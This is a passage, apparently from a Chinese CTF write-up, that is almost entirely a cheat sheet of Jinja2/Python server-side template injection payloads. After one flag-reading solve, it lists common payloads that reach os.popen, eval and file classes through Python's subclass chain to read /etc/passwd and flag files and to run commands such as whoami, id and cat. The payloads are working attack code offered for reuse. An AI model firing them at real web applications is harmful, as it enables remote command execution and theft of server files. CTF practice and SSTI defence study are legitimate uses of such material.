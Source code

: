 ```
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read()}}{% endif %}{% endfor %}
```

得到flag



### 常用payload

无过滤情况

```
#读取文件类，<type ‘file’> file位置一般为40，直接调用
{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} 
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()}}
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()}}
{{[].__class__.__base__.__subclasses__()[257]('flag').read()}} (python3)


#直接使用popen命令，python2是非法的，只限于python3
os._wrap_close 类里有popen
{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}
{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()}}


#调用os的popen执行命令
#python2、python3通用
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls /flag').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}
{{''.__class__.__base__.__subclasses__()[185].__init__.__globals__['__builtins__']['__import__']('os').popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()}}
#python3专属
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}


#调用eval函数读取
#python2
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}} 
{{"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')}}
#python3
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}} 
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']}}
{{"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")}}
```